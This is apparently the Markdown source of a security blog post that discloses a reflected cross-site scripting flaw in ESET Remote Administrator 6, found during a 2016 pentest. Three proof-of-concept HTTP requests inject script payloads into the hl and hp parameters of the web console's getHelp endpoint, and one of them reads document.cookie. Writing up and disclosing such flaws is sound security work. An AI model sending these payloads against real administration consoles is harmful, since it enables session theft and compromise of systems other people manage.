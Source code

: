 ```yaml
---
layout: post
title:  "Cross-Site Scripting (XSS) in ESET Remote Administrator"
date:   2019-01-21 03:43:45 +0700
categories: [cve]
---
```

I found that XSS vulnerabilities during the pentest back in 2016, but never reported it to the vendor. According to exloit-db.com/search or cxsecurity.com/search this has never been reported, so I'm catching up now in 2019 with old stuff.
cvedetails.com websites doesn't mention it https://www.cvedetails.com/vulnerability-list/vendor_id-8861/product_id-16877/Eset-Remote-Administrator.html. It appears, that issue might have been internally patched.
Mitre website also mentioned only one XSS back from 2009, see https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Eset+Remote+Administrator

Unfortunatelly, all evidences except a single txt file went gone during the issue with my MS Windows testing vmware image a year or more ago, where I installed a local version of "All-In-One ERA 6".

Vendor: ESET, LLC, d/b/a ESET North America
Product: ESET Remote Administrator
Version affected: 6

#### Product description:
ESET Remote Administrator allows to oversee the entire network, including workstations, servers and smartphones from a single point. It can be installed on Windows as well as Linux servers and also comes as a Virtual Appliance. It handles
communication with agents, and collects and stores application data in the database.

#### Cross-Site Scripting, Reflected
* CVE: CVE-2019-xxxx
* CWE: CWE-79


A Cross Site Scripting vulnerability exists in ESET Remote Administrator hl, hp parameters. It is possible to inject arbitrary JavaScript into requests which are ultimately executed by the user browser.


## Proof of Concept 1
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US&hp=fs_login_screen.htm"/><script>alert(document.cookie)</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 2
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US"/><script>alert('xss')</script>&hp=fs_login_screen.htm HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 3
{% highlight ruby %}
GET /era/webconsole/getHelp?hl="><script>alert('xss')</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

#### References:
1. OWASP - https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://www.eset.com/au/business/remote-management/remote-administrator/
3. Download the latest trial version - https://support.eset.com/kb6114/?locale=en_US&viewlocale=en_US
